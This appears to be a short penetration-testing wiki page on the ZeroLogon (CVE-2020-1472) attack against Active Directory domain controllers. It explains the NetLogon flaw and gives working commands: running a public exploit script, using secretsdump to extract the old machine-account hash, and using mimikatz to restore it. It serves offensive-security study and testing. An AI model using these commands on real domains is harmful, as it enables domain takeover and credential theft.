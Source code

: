 # 🛠️ ZeroLogon

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
python3 cve-2020-1472-exploit.py $DC_name $DC_IP

# (secretsdump) Find the old NT hash of the DC
secretsdump -history -just-dc-user 'DC_name$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_name$@DC.DOMAIN'

# (mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:<old nt hash>
```

//TODO : study this in depth, espacially the hash history part, work on the stability

## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



